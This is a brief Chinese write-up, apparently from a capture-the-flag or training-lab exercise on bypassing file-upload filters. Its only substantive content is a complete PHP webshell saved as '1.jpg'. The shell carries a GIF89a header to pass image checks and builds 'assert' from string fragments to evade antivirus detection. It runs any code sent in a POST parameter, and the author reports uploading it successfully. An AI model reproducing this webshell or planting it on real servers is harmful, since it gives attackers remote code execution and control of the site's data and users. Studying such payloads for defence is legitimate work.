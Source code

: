 ![upload successful](/images/pasted-814.png)


# 34042 基础题目之文件上传突破

这里直接上传之前写的免杀马子(后缀jpg测试)成功上传
```1.jpg
GIF89a
<?php 
$a='ass';
$b='ert';
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```
![upload successful](/images/pasted-815.png)

